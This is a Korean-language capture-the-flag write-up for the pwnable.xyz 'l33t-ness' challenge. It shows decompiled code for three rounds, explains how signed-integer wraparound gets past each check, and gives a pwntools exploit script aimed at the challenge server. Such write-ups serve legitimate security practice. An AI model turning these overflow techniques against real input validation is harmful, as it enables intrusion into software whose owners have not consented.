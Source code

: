 ```yaml
---
title: "[pwnable.xyz]l33t-ness"
date: 2020-1-25
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


3단계로 걸쳐서 스테이지 통과하면 플래그를 내뿜는 바이너리다.

round1에서는 x,y입력받아서 atoi로 정수로 변환해주고 x,y가 각각 1336보다 작아야하는데 x-y를 1337로 만들라고한다.

그래서 v1에는 1336을 넣고 v2에는 -1을 넣어주면 되는데 strchr로 -가 포함되는지 검사하는데 마침 int형이라 -(-1) 만들어주면 된다. 아니면 v1을 다른 방법으로는 x에 0을 넣고 y에는 2^32+(2^32-1337) 이렇게 넣어주면 -1337이 되서 1337로 통과할 수 있다.

```c
_BOOL8 round_1()
{
  _BOOL8 result; // rax
  int v1; // [rsp+8h] [rbp-38h]
  int v2; // [rsp+Ch] [rbp-34h]
  char s; // [rsp+10h] [rbp-30h]
  __int64 v4; // [rsp+20h] [rbp-20h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("=== 1eet ===");
  memset(&s, 0, 0x20uLL);
  printf("x: ", 0LL);
  read(0, &s, 16uLL);
  printf("y: ", &s);
  read(0, &v4, 16uLL);
  if ( strchr(&s, '-') || strchr(&v4, '-') )
    return 0LL;
  v1 = atoi(&s);
  v2 = atoi(&v4);
  if ( v1 <= 1336 && v2 <= 1336 )
    result = v1 - v2 == 1337;
  else
    result = 0LL;
  return result;
}
```

round2 푸는데 좀 더 오래걸려있다. v1은 1초과여야하고 v2는 1337초과여야한다. 근데 곱을 1337로 만들어야한다.

우선 v2가 1337 이상이여야한다. 그러면 2^32+1337으로 값을 맞춰주고 나누어 떨어지는 값을 곱하면 1337이 되는 원리를 사용하면 된다. 2^32+1337는 3으로 나누어떨어진다. 그러면 v1에 3을 넣고 v2에는 (2^32+1337)/3을 넣어서 곱하면 1337이 된다. 그 외에도 9로도 나누어떨어진다. 그러면 v1에는 9를 넣고 v2에는  (2^32+1337)/9를 넣어서 풀 수도 있다.

```c
_BOOL8 round_2()
{
  int v1; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("=== t00leet ===");
  v1 = 0;
  v2 = 0;
  _isoc99_scanf("%d %d", &v1, &v2);
  return v1 > 1 && v2 > 1337 && v1 * v2 == 1337;
}
```

round3는 너무 쉬워서 딱히 할말 없다. 다 곱한값이랑 다 더한 값이랑 같으면 된다. 그냥 0으로 다 싹 밀어주면 통과할 수 있다.

```c
_BOOL8 round_3()
{
  signed int i; // [rsp+0h] [rbp-30h]
  __int64 v2; // [rsp+10h] [rbp-20h]
  __int64 v3; // [rsp+18h] [rbp-18h]
  int v4; // [rsp+20h] [rbp-10h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("=== 3leet ===");
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0;
  _isoc99_scanf("%d %d %d %d %d", &v2, &v2 + 4);
  for ( i = 1; i <= 4; ++i )
  {
    if ( *(&v2 + i) < *(&v2 + i - 1) )
      return 0LL;
  }
  return HIDWORD(v3) + v3 + HIDWORD(v2) + v2 + v4 == HIDWORD(v3) * v3 * HIDWORD(v2) * v2 * v4;
}
```

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30008)

#p.sendlineafter('x:','0') # 0
#p.sendlineafter('y:',str(0xffffffff+(0xffffffff-1335))) # 8589933255
p.sendlineafter('x:','1336') 
p.sendlineafter('y:',str(2**32-1))
p.sendlineafter('=== t00leet ===\n','3 ' + str((2**32+1337)/3))
#p.sendlineafter('=== t00leet ===\n','9 ' + str((2**32+1337)/9))
p.sendlineafter('=== 3leet ===\n','0 0 0 0 0')

# 0 8589933255
# 3 1431656211
# 0 0 0 0 0

p.interactive()
```

